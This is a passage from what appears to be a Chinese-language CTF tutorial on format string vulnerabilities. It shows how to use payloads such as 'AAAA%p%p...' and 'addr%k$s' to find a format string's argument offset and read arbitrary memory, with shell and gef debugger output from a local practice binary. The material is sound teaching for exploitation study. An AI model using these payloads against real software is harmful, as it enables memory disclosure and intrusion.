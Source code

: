 可以看出在棧上的第二個變量就是我們的格式化字符串地址0xffffcd10，同時該地址存儲的也確實是"%s"格式化字符串內容。

那麼由於我們可以控制該格式化字符串，如果我們知道該格式化字符串在輸出函數調用時是第幾個參數，這裏假設該格式化字符串相對函數調用爲第k個參數。那我們就可以通過如下的方式來獲取某個指定地址addr的內容。

```
addr%k$s
```

> 注： 在這裏，如果格式化字符串在棧上，那麼我們就一定確定格式化字符串的相對偏移，這是因爲在函數調用的時候棧指針至少低於格式化字符串地址8字節或者16字節。

下面就是如何確定該格式化字符串爲第幾個參數的問題了，我們可以通過如下方式確定

```text
[tag]%p%p%p%p%p%p...
```

一般來說，我們會重複某個字符的機器字長來作爲tag，而後面會跟上若干個%p來輸出棧上的內容，如果內容與我們前面的tag重複了，那麼我們就可以有很大把握說明該地址就是格式化字符串的地址，之所以說是有很大把握，這是因爲不排除棧上有一些臨時變量也是該數值。一般情況下，極其少見，我們也可以更換其他字符進行嘗試，進行再次確認。這裏我們利用字符'A'作爲特定字符，同時還是利用之前編譯好的程序，如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7%
```

由0x41414141處所在的位置可以看出我們的格式化字符串的起始地址正好是輸出函數的第5個參數，但是是格式化字符串的第4個參數。我們可以來測試一下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%4$s
00000001.22222222.ffffffff.%4$s
[1]    61439 segmentation fault (core dumped)  ./leakmemory
```

可以看出，我們的程序崩潰了，爲什麼呢？這是因爲我們試圖將該格式化字符串所對應的值作爲地址進行解析，但是顯然該值沒有辦法作爲一個合法的地址被解析，，所以程序就崩潰了。具體的可以參考下面的調試。

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: "%4$s"	 ← $eax
0xffffcd24│+0x18: 0xffffce00  →  0x00000000
0xffffcd28│+0x1c: 0x000000e0
───────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
[#1] 0x80484ce → Name: main()
────────────────────────────────────────────────────────────────────────────────
gef➤  help x/
Examine memory: x/FMT ADDRESS.
ADDRESS is an expression for the memory address to examine.
FMT is a repeat count followed by a format letter and a size letter.
Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
  t(binary), f(float), a(address), i(instruction), c(char), s(string)
  and z(hex, zero padded on the left).
Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
The specified number of objects of the specified size are printed
according to the format.
```